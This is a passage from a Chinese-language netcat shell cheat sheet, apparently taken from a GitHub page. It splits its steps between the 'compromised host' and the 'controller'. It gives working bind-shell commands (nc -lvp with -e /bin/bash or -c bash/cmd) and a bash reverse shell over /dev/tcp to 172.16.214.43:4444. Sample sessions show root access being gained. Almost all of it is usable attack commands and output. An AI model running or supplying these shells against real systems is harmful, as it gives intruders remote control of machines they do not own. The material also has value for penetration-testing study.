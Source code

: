 ```
# 失陷主机
> nc -lvp 4444 -e /bin/bash
listening on [any] 4444 ...
172.16.214.1: inverse host lookup failed: Unknown host
connect to [172.16.214.43] from (UNKNOWN) [172.16.214.1] 60628

# 控制端
> nc -v 172.16.214.43 4444
Connection to 172.16.214.43 port 4444 [tcp/krb524] succeeded!
whoami
root
```

**-c 指定反弹 shell**

```
# 失陷主机
nc -lvp lprot -c bash	# linux 主机
nc -lvp lport -c cmd 	# windows 主机

# 控制端
nc rhost rport
```

```
# 失陷主机
> nc -lvp 4444 -c bash
listening on [any] 4444 ...
172.16.214.1: inverse host lookup failed: Unknown host
connect to [172.16.214.43] from (UNKNOWN) [172.16.214.1] 60635

# 控制端
> nc -v 172.16.214.43 4444
Connection to 172.16.214.43 port 4444 [tcp/krb524] succeeded!
whoami
root
```

**结合其他语言进行反弹 shell**

```
# 失陷主机
bash -i >& /dev/tcp/rhost/rport 0>&1

# 控制端
nc -lvp lprot
```

```
# 失陷主机
> bash -i >& /dev/tcp/172.16.214.43/4444 0>&1

# 控制端
> nc -lp 4444
root@ubuntu:~# whoami
whoami
root
```
